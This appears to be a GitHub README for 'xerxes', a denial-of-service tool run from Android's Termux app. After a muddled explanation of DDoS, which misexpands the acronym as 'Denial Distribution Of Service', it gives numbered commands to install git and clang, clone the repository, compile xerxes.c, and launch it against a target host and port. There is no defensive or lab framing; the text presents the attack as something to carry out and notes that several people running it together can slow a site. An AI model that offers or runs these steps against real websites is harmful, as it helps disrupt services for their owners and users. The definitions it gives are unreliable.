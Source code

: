 # xerxes
DDoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the Xerxes Tool?
This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux?
Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.)
Termux Xerxes installation?
Download Termux from Google Play…

 Write Commands, respectively

(1) apt update

(2) apt upgrade

(3) pkg install git

(4) pkg install clang

(5) git clone https://github.com/ItsMeAbhishekRai/xerxes

(6) cd Xerxes

(7) clang xerxes.c -o xerxes

(8) ./xerxes www.example.com 80
